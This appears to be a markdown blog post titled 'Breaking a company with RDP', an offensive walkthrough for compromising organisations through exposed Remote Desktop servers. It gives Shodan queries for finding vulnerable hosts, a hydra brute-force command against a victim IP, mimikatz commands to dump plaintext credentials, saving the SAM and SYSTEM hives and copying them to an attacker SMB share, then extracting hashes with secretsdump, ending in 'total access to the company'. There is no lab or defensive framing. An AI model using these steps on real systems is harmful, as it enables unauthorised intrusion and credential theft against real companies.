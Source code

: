 ```yaml
---
title: Breaking a company with RDP
published: true
---
```


RDP is a remote access protocol by which valid users can be logged in, cybercriminals often exploit this port to gain access to companies and sell access to it.

## Searching on Shodan

We need to go to [shodan](https://shodan.io), now we need to log in to be able to search in shodan.

<img src="https://eltallerdelbit.com/wp-content/uploads/2017/11/shodan-search-engine-for-the-internet-of-things.jpg">

Now you need to search with this query.

`` 
port:3389
``

With this we will be looking for those servers with port 3389 open.

Some queries which are advisable to look for

``` ruby
port:3389
port:3389 Country:ES
port:3389 Administrator
port:3389 Administracion
vuln:cve-2019-0708
```

After enter this querys, we can see a lot of servers with the rdp port open.
Thanks to shodan we will be able to see existing users of the system to brute force.

<img src="https://i.ibb.co/7pgxM7w/proof.png">

## Vulnerabilities

During the covid quarantine, cybercriminals were exploiting vulnerabilities in servers with port 3389, several of the vulnerabilities were as follows.

### Bluekeep (CVE-2019-0708)

*BlueKeep seeks to run malicious code in the kernel memory of the server, allowing the hacker to take control of the entire system. The key to sending this code to the server is in the session setup. It’s at this point that BlueKeep sends arbitrary code to the server. The server stores it in memory, then frees the memory up again. However, because the server retains a pointer to the memory, BlueKeep is able to execute the malicious code.*

*Technical analysis [here](https://iotsecuritynews.com/technical-analysis-of-bluekeep/)*

<img src="https://2164375935-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-Lp0LQX2B5gc18QD-Izh%2F-LuIi6zKvZyZXercxtu0%2F-LuJ523Xqfri-cqUzLKw%2FFlinkCEP-Bluekeep-NFA-Schema.jpg?alt=media&token=d806db30-1871-4b46-a7ec-4e68b24d16eb">

### DejaBlue (CVE-2019-1181 CVE-2019-1182 CVE-2019-1222 and CVE-2019-1226) 

*In August 2019, Microsoft used its Patch Tuesday to release new patches related to CVEs affecting the remote desktop protocol. Of those vulnerabilities, four stand out for their striking similarity to the BlueKeep vulnerability.*

- **CVE-2019-1181 and CVE-2019-1182: affect devices running Windows 7, Windows 8.1 or Windows 10, as well as any device running Windows Server 2008, Windows Server 2012, Windows Server 2016 or Windows Server 2019.**

- **CVE-2019-1222 y CVE-2019-1226: afectan a los dispositivos que ejecutan Windows 10 o Windows Server 2019.**

*DejaBlue vulnerabilities are based on flaws in the early stages of an RDP connection. Since the flaws reside in the processes preceding the authentication phase, no prior knowledge of passwords or keys is required to undertake an attack that can ultimately lead to illicit remote code execution.*

*Technical Analysis [here](https://www.malwaretech.com/2019/08/dejablue-analyzing-a-rdp-heap-overflow.html)*

## BruteForce

We are going to use hydra, to make the bruteforce

``` java
hydra -L user.txt -P pass.txt IP_VICTIM rdp
```

<img src="https://1.bp.blogspot.com/-NqCFAA8TlVQ/XufVdykKZnI/AAAAAAAAHB4/wQlcf0Cm3BwGgywbLDklRXJ9P1ZoZzQSQCNcBGAsYHQ/s1600/4_hydra-fuerza-bruta-profundidad-rdp.pnghttps%3A%2F%2Ftelegra.ph%2Ffile%2F3f4b2c33b38d472797e54.png">

## Privesc

After have access to the RDP server with a valid access, now we need to dump the passwords to scalate the privilages with mimikatz.

### Mimikatz

**Obtaining credentials in plain text**

``` ruby
~$> privilage::debug
~$> sekurlsa::logonpasswords
```

<img src="https://www.ngi.es/wp-content/uploads/2021/10/mimikatz_tool_bg.jpg">

**Obtaining sam and system hashes**

``` ruby
~$> reg save HKLM\sam sam.backup
~$> reg save HKLM\system system.backup
```

Now we need to transfer this files to our system with impacket-smbserver

*Server*
``` sh
~$> sudo impacket-smbserver smbFolder $(pwd) -smb2support
```

*Victim*
``` ruby
> copy sam.backup \\10.10.14.60\smbFolder\sam
> copy system.backup \\10.10.14.60\smbFolder\system
```

**Dumping sam and system hashes**
``` ruby
~$> impacket-secretsdump -sam sam -system system LOCAL
```
<img src="https://i.ibb.co/Tr5jV3n/ld.png">

**After this, now we have dumped the credentials and have total access to the company.**